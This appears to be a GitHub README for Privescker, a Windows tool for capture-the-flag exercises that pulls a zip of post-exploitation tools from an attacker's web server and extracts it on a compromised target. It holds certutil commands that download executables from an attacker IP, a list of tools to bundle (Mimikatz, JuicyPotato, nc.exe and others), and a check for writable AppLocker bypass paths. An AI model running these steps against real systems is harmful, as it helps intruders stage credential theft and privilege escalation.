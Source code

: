 # Privescker

**Advisory**

All the binaries/scripts/code of Privescker should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *

**What is Privescker?**

This was a tool I created to make life easier when doing CTF exercises on Windows machines. Initially I created Privescker to embed a number of binaries which would be dumped onto the target when executed. However, I thought a way of making it more customisable without recompiling every time you want a new binary I made this version posted here.

Privescker is a single binary that will download a single **zip** file containing all of your favourite Windows enumeration tools and scripts and then extract them on the target.

**Now you may think - why bother with the binary and just extract the zip yourself?**

It's not that simple. In a cmd shell it's a pain in the backside especially on older versions of Windows. PowerShell is doable but you may have instances where PowerShell is limited or not available at all.

**Other things it can do**

I have also built in the functionality to pass an argument and check AppLocker bypass locations to see whether you have write access to them. This is very handy when working on restrictive boxes.

```
privescker.exe -p
```

I have more planned for future released such as building your zip files and getting the latest versions of specific tools for you depending on user configs and other ideas. More to come on this in future.

**The manual way**

We all know the manual way of dumping files onto Windows is quite laborious, especially in older versions of Windows such as:
```
certutil -urlcache -f http://10.10.14.12:8000/enum.exe c:\users\public\enum.exe
```
Now multiply that by all the scripts, enum and post exploitation tools you want on the machine and it becomes time consuming.

**The Privescker way**

Once the privescker.exe binary is on the machine:
```
privescker.exe -u http://10.10.14.12:8000/enum-tools.zip -o c:\users\public
```

Then all your files you need to move to Windows will be dumped to the location you chose.

**Notes**

This is probably not advised on pentests as I'm sure AV will light up like a Christmas tree with all the different scripts and tools being extracted on the machine.

**Usage**

First you will need to get all your common and favourite tools and scripts and add them to a zip file on your attack machine (you can add subfolders within your zip if you please).

Personally here are some of the ones I have:
- accesschk.exe
- jaws.ps1
- nc.exe
- plink.exe
- PowerUp.ps1
- Seatbelt.exe
- SharpHound.exe
- SharpHound.ps1
- Sherlock.ps1
- Watson.exe
- winPEAS.bat
- winPEAS.exe
- JuicyPotato.exe
- PrintSpoofer.exe
- RunAsUser.exe
- Mimikatz.exe
- wget.exe

The choice is yours, add what you want.

The next step is to set up a webserver on your attack box, for example:
```
python -m SimpleHTTPServer
```

Now from your Windows shell, download privescker.exe;

```
certutil -urlcache -f http://10.10.14.12:8000/privescker.exe c:\users\public\privescker.exe
```

Leaving your webserver running, just execute privescker like this to get all your favourite tools.

```
privescker.exe -u http://10.10.14.12:8000/enum-tools.zip -o c:\users\public
```

That is literally it - small simple tool to make life easier with getting all your common enumeration, privesc and post exploitation tools on the machine for you in one go.

Hope others find it helpful.

Feel free to use the Release version or compile it yourself if you prefer.

:-)

**Screenshots**

Help menu:

![](/screenshots/help.png)

Print AppLocker writable bypass locations:

![](/screenshots/printpaths.png)

Executing the tool:

![](/screenshots/running.png)

Showing the output:

![](/screenshots/dir.png)






